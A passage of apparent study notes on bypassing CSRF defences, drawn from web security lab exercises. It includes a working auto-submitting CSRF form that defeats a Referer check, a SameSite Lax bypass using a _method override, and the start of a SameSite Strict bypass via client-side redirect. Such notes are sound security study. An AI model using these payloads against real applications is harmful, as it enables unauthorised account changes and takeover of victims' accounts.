 * This validation can be easily bypassed by submitting a payload that will inject the required domain value as a query parameter in the “Referer” header.   Which will bypass this restriction, as the application is only checking if the value is somewhere in the header.


```html
<html>
    <meta name="referrer" content="unsafe-url">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?REQUIRED-REFERER-VALUE')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```


<br><br>

### SameSite Lax bypass via method override

* If the application is setting the session cookie with the SameSite=Lax configuration, identify all the state changing requests, and determine if the request can be sent with a GET request.

* If the GET requests are blocked, then we can use method override to bypass these restrictions.  Certain frameworks allow this behavior, below is an examlpe using the Symfony framework:

* Example:

   * _method=POST

   * GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1

```javascript
<script>
document.location = "https://0c52008e004f.web-security-academy.net/my-account/change-email?email=test123%40web-security-academy.net&_method=POST";
</script>
```

<br>

### SameSite Strict bypass via client-side redirect

* If a cookie is set with the SameSite=Strict attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site. 

* One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.

* Example:  The application is grabbing the value of the “postId” parameter to initiate a client-side redirect.
